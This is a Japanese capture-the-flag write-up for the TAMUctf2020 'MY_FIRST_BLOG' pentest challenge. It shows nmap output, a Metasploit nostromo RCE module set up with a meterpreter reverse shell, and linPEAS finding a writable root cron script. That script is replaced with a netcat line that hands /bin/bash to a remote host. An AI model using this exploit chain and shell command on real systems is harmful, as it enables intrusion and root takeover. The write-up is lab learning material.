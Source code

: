 ```yaml
---
title: "【TAMUctf2020 writeup】MY_FIRST_BLOG（NETWORK_PENTEST）"
date:  "2020-03-30T15:04:05+07:00"
author:
  - "さんぽし"
description: "【TAMUctf2020 writeup】MY_FIRST_BLOG（NETWORK_PENTEST）"
draft: false
tags: ["CTF","writeup"]
categories:
  - "security"
---
```


## はじめに
KUDoS として TAMUctf2020 に参加しました。
MY_FIRST_BLOG は唯一解いた問題です。（もっと貢献しろ）
Hack the Box Like ですごい楽しかったです。

難易度的には Hack the Box の easy レベルだと思いました。（そもそも僕が解けてるので…）

## nmap

```
$ nmap -sC -sV 172.30.0.2
Starting Nmap 7.80 ( https:/ map.org ) at 2020-03-20 21:58 EDT
Nmap scan report for 172.30.0.2
Host is up (0.18s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    nostromo 1.9.6
|_http-generator: Hugo 0.54.0
|_http-server-header: nostromo 1.9.6
|_http-title: My first blog!
Service detection performed. Please report any incorrect results at https:/ map.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.86 seconds
```

nostromo 1.9.6 には[nostromo 1.9.6 - Remote Code Execution](https://www.exploit-db.com/exploits/47837)の脆弱性があります

## metasploit使う

```
msf5 exploit(multi/http ostromo_code_exec) > options

Module options (exploit/multi/http ostromo_code_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   172.30.0.2       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    80               yes       The target port (TCP)
   SRVHOST  172.30.0.14      yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.30.0.14      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Automatic (Linux Dropper)

```

これで meterpreter の shell が取れます



## /etc/crontabをみる

毎度お世話になっている[高林さん](https://twitter.com/1eDVeCw6hdSLhzB)の以下の記事を参考に調査を進めます
https://kakyouim.hatenablog.com/entry/2020/03/14/031746#Linux

```:/etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root /usr/bin/healthcheck
```

`/etc/crontab`をみると `/usr/bin/healthcheck` が実行され続けていることがわかります。

## Linpeas.sh

Linpeas.sh を使用します。
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

これにより先ほどの `/usr/bin/healthcheck` が書き換え可能であることがわかります
（長いので細かい結果は省略）

## `/usr/bin/healthcheck`を書き換えてbind shellをとる
以下を meterpreter の `upload` コマンドを使って `/usr/bin/healthcheck` と置き換えます。

```:/usr/bin/healthcheck
nc 192.168.100.113 4444 –e /bin/bash
```

4444 番 port で待ち受けさせたので、local で以下のようにすると接続できます。

```
$ nc -nv 172.30.0.2 4444
(UNKNOWN) [172.30.0.2] 4444 (?) open
ls
flag.txt
```

flagGET です

## 終わりに
最近 Hack the Box ばかりやっていて CTF に参加していなかったのですが、CTF はみんなで力を合わせて頑張る感があってすごく楽しいですよね…
今回みたいな PENTEST の問題が出てくる CTF があったらまた貢献できるように頑張りたいです
（本当は Web 問解けるようになりたいんですけど徳丸本すら読破していないのでこういう問題でしか役に立てない）

 
